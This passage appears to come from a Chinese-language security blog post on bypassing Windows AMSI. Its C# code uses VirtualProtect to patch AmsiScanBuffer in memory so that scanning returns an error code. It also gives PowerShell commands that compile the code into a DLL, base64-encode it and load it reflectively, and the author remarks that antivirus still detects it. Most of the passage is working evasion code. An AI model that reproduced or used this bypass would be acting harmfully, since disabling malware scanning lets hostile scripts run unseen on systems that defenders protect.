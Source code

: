 ```plain

            UIntPtr dwSize = (UIntPtr)5;
            uint Zero = 0;
            if (!VirtualProtect(AmsiScanBufferPtr, dwSize, 0x40, out Zero))
            {
                Console.WriteLine("ERROR: Could not change AmsiScanBuffer memory permissions!");
                return 1;
            }


    Byte[] Patch = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
    IntPtr unmanagedPointer = Marshal.AllocHGlobal(6);
    Marshal.Copy(Patch, 0, unmanagedPointer, 6);
    MoveMemory(AmsiScanBufferPtr ,unmanagedPointer, 6);


            Console.WriteLine("AmsiScanBuffer patch has been applied.");
            return 0;
        }
    }
}
```

c# 这段码的功能就是在 `AmsiScanBuffer` 的函数地址处直接打补丁，补丁汇编是 (推荐汇编转 16 进制网站 [Online x86 and x64 Intel Instruction Assembler (defuse.ca)](https://defuse.ca/online-x86-assembler.htm#disassembly))：

```plain
mov eax,0x80070057
ret
```

我们将代码直接保存为 source.cs，然后用 ps 去编译，命令如下：

```plain
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "Bypass-AMSI.dll"
```

[![](assets/1710900073-07f0aa3419186fadc5728fb628a6363b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303102107-b125f57e-d904-1.png)

报毒，我们然后我们把 dll 文件进行 base64 编码（Kali 下，直接使用 base64 -i 文件名，就可以得到 base64 编码），然后使用 powershell 进行武器化，反射加载，也是直接被秒

```plain
unction Bypass-AMSI
{
    if(-not ([System.Management.Automation.PSTypeName]"Bypass.AMSI").Type) {
        [Reflection.Assembly]::Load([Convert]::FromBase64String("你的 base64 编码")) | Out-Null
        Write-Output "DLL has been reflected";
    }
    [Bypass.AMSI]::Disable()
}
```
